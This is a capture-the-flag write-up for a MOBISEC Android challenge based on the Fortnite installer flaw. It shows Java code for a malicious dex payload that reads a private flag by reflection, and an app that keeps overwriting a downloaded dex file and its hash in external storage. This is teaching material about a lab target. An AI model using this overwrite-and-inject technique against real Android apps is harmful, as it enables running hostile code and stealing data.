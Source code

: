 # Solution


## Description of the problem

find something useful to get the flag

## Solution

Let's see the description:

> Based on a true story.

Let's find out what this true story is. I search for the key words "fortnite mobile vulnerability" in Google, and I find out [an article](https://themarketingfolks.com/fortnite-mobile-for-android-devices-has-a-serious-security-flaw/) about this. The article says that:

> How the vulnerability works is that any app that has the “WRITE_EXTERNAL_STORAGE” permission can replace the APK after the download is complete. This means that people can replace the APK with malicious software that gives them access to your phone. Additionally the APK installs the package silently in the background so if someone has access to your phone, they can replace the APK with the virus without you noticing while the app is being updated 

So, maybe this challenge is about downloading something in the public storage, and others modify this file, I guess.



Now, let's see the codes.

<img src="screenshots/_exploitation/fortnite/r1.PNG" alt="codes" style="zoom:100%;" />

<img src="screenshots/_exploitation/fortnite/r2.PNG" alt="codes" style="zoom:130%;" />

In MainActivity, the code will download two files, verify the dex file with the signature. If the verification is approved, the class loader will load class `com.mobisec.fortnitepayload.Payload` and run the `run` function/method in this class. The files are downloaded to the `file.getAbsolutePath()`. Therefore, I should build my own dex file with the name of `fortnite.dex` and its sha-2 value in `sign.dat`, use an app to store these two files to `/storage/emulated/0`, and in my own dex file, there should be codes the same class and the same function to get the flag.

To get the flag, in my own dex there should be a classloader in function `run` that can load the `com.mobisec.fortnite.MainActivity` class of the app running in the analysis system and get the value of the `flag`. The java reflection with "Field" method is used here. 

```java
public class Payload {

    public static void run() {
        Log.i("MOBISEC", "package com.mobisec.fortnitepayload.Payload; run()");

        //https://www.tutorialspoint.com/java/lang/thread_getcontextclassloader.htm
        Thread t = Thread.currentThread();
        ClassLoader classloader = t.getContextClassLoader();
        t.setContextClassLoader(classloader);
//        System.out.println("Class = " + classloader.getClass());
//        System.out.println("Parent = " + classloader.getParent());

        try {
            //https://www.cnblogs.com/ldq2016/p/6834643.htm
            Class<?> clz = classloader.loadClass("com.mobisec.fortnite.MainActivity");
            Field field = clz.getDeclaredField("flag");//https://blog.csdn.net/shenhaiwen/article/details/75305176

            field.setAccessible(true);

            Object value = field.get(clz);
            Log.i("MOBISEC", " : " + value);

        } catch (Exception e) {
            Log.w("MOBISEC","package com.mobisec.fortnitepayload,Payload.java: ");
            Log.w("MOBISEC", Log.getStackTraceString(e));
        }
    }
}
```

<img src="screenshots/_exploitation/fortnite/com.mobisec.fornitepayload.Payload.PNG" alt="codes" style="zoom:80%;" />



After [programming this class](AndroidStudioProjects_exploitation/fortnitepayload/app/src/main/java/com/mobisec/fortnitepayload/Payload.java), I build an apk, and unzip this apk package to get the dex file, and put this dex file to the [asset](AndroidStudioProjects_exploitation/fortnite/app/src/main/assets) of another storage program, with the sha-2 hash value. 

<img src="screenshots/_exploitation/fortnite/class3.PNG" alt="codes" style="zoom:80%;" />

<img src="screenshots/_exploitation/fortnite/cl3.PNG" alt="codes" style="zoom:55%;" />



Then in the [second Android studio project](AndroidStudioProjects_exploitation/fortnite/app/src/main/java/com/example/fortnite/MainActivity.java), with these assets, the program will copy these assets to the path `/storage/emulated/0`, in an infinite while loop.

```java
private boolean copyAssetsSingleFile(String outPath, String fileName) {
    File file = new File(outPath);
    if (!file.exists()) {
        if (!file.mkdirs()) {
            Log.e("MOBISEC","--Method--"+ "copyAssetsSingleFile: cannot create directory.");
            return false;
        }
    }
    try {
        InputStream inputStream = getAssets().open(fileName);
        File outFile = new File(file, fileName);
        FileOutputStream fileOutputStream = new FileOutputStream(outFile);
        // Transfer bytes from inputStream to fileOutputStream
        byte[] buffer = new byte[1024];
        int byteRead;
        while (-1 != (byteRead = inputStream.read(buffer))) {
            fileOutputStream.write(buffer, 0, byteRead);
        }
        inputStream.close();
        fileOutputStream.flush();
        fileOutputStream.close();
        return true;
    } catch (IOException e) {
        Log.w("MOBISEC", Log.getStackTraceString(e));
        return false;
    }
}//https://blog.csdn.net/u013642500/article/details/80069811
```



Also, the following permissions are needed to allow the program store files to external storage.

```xml
<uses-permission android:name="android.permission.INTERNET"/>
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
    tools:ignore="ScopedStorage" />
```



Finally, I get the flag:

<img src="screenshots/_exploitation/fortnite/glaf.PNG" alt="" style="zoom:100%;" />






## Optional Feedback



## reference

Fortnite mobile for Android devices has a serious security flaw: https://themarketingfolks.com/fortnite-mobile-for-android-devices-has-a-serious-security-flaw/

Field usage of Java reflection: https://www.cnblogs.com/ldq2016/p/6834643.html

The difference between getClassLoader() and getContextClassLoader(): https://blog.csdn.net/zlfprogram/article/details/87194220

Java.lang.Thread.getContextClassLoader() Method: https://www.tutorialspoint.com/java/lang/thread_getcontextclassloader.htm

: https://blog.csdn.net/u013642500/article/details/80069811